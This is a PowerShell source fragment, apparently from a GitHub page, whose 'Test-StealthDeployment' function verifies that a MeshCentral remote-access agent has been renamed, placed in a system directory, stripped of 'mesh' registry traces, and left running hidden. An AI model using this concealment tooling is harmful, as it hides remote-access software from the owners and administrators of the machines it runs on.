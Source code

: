 ```powershell
            Write-StealthLog "Service failed to start. Status: $($service.Status)" -Level 'ERROR'
            return $false
        }

    } catch {
        Write-StealthLog "Error starting service: $_" -Level 'ERROR'
        return $false
    }
}

function Test-StealthDeployment {
    Write-StealthLog "Verifying stealth deployment..."

    $results = @{
        ServiceRunning = $false
        FileSystemHidden = $false
        RegistryClean = $false
        ProcessHidden = $false
        OriginalRemoved = $false
    }

    try {
        # Check service is running
        $service = Get-Service -Name $StealthConfig.ServiceName -ErrorAction SilentlyContinue
        $results.ServiceRunning = ($null -ne $service -and $service.Status -eq 'Running')

        # Check files exist in new location
        $exePath = "$($StealthConfig.InstallPath)\$($StealthConfig.ExecutableName)"
        $results.FileSystemHidden = (Test-Path $exePath)

        # Check original service doesn't exist
        $originalService = Get-Service -Name 'Mesh Agent' -ErrorAction SilentlyContinue
        $results.OriginalRemoved = ($null -eq $originalService)

        # Check registry has no "mesh" references
        $meshServices = Get-ChildItem -Path 'HKLM:\SYSTEM\CurrentControlSet\Services' | Where-Object { $_.Name -like '*mesh*' }
        $results.RegistryClean = ($meshServices.Count -eq 0)

        # Check process is running
        $process = Get-Process -Name ($StealthConfig.ExecutableName -replace '\.exe$','') -ErrorAction SilentlyContinue
        $results.ProcessHidden = ($null -ne $process)

        # Display results
        Write-StealthLog "=== STEALTH DEPLOYMENT VERIFICATION ===" -Level 'INFO'
        Write-StealthLog "Service Running ($($StealthConfig.ServiceName)): $($results.ServiceRunning)" -Level 'INFO'
        Write-StealthLog "Files Hidden in System Directory: $($results.FileSystemHidden)" -Level 'INFO'
        Write-StealthLog "Original Service Removed: $($results.OriginalRemoved)" -Level 'INFO'
        Write-StealthLog "Registry Cleaned: $($results.RegistryClean)" -Level 'INFO'
        Write-StealthLog "Process Active: $($results.ProcessHidden)" -Level 'INFO'

        $allPassed = ($results.Values -notcontains $false)

        if ($allPassed) {
            Write-StealthLog "=== STEALTH DEPLOYMENT SUCCESSFUL ===" -Level 'SUCCESS'
        } else {
            Write-StealthLog "=== STEALTH DEPLOYMENT PARTIALLY FAILED ===" -Level 'WARNING'
        }

        return $allPassed
```